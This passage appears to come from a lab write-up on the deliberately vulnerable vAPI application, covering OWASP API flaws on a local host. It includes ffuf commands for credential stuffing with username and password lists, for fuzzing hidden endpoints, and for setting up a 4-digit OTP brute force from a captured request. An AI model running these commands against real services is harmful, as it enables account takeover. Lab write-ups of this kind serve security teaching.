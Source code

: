 ```markdown
> ffuf -c -request request.txt -request-proto http -t 100 -fc 401 -w ./usernames:FUZZEMAIL -w ./passwords:FUZZPASSWORD -mode pitchfork
```
```markdown
> ffuf -c -w /usr/share/seclists/SecLists-master/Discovery/Web-Content/api/objects.txt -t 100 -fc 500 -u http://10.1.1.11:8008/vapi/api3/FUZZ
```
Which discovers a hidden endpoint called `/vapi/api3/comment`
\
\
![Untitled10](https://github.com/g1vi/AllTheWriteUps/assets/120142960/43d5d99f-8e65-4a37-9000-45564af58038)
\
\
Simulating what the android app does, we query it with a GET request and see what information is leaked.
\
\
![Untitled11](https://github.com/g1vi/AllTheWriteUps/assets/120142960/ff0933d0-9c0b-460f-af0d-54c354f0309d)
\
\
The flag appears in one of the parameters returned, therefore, we verify the endpoint is leaking unnecessary information, which is later filtered by the app developers.

### API4. LACK OF RESOURCES & RATE LIMITING
Applications that do not limit the resources (network, CPU, memory, and storage) assigned to each client request are vulnerable to attacks where the user can send many resuts in shorts periods of time, and containing payloads of arbitrary size.<br>
<br>
Sending a POST request to the `/vapi/api4/login` endpoint initiates an OTP-based login process. A 4-digit OTP is supposed to be sent to the indicated mobile phone.
\
\
![Untitled12](https://github.com/g1vi/AllTheWriteUps/assets/120142960/005fc8e3-7cc6-44b0-910e-a105421df88e)
\
\
Another endpoint `/vapi/api4/login` is used to verify the OTP by means of a POST request containing the received code.
\
\
![Untitled13](https://github.com/g1vi/AllTheWriteUps/assets/120142960/81fe9f40-ad42-42bf-87e4-5b4c5b0e2036)
\
\
Notice the OTP's are only 4-digit, so in theory they could be bruteforced if the application does not block massive amounts of user requests. This could be done with Burpsuite's intruder or `ffuf` (faster). Same as before, capture a request with burpsuite, and save to a `request.txt` file.
\
\
![Untitled14](https://github.com/g1vi/AllTheWriteUps/assets/120142960/4b916805-157e-4166-804a-e9af2e4cfae6)
\
\
 Using a text editor, mark the field to bruteforce with the text "FUZZ".
```markdown
POST /vapi/api4/otp/verify HTTP/1.1
Host: 10.1.1.11:8008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: language=en; welcomebanner_status=dismiss
```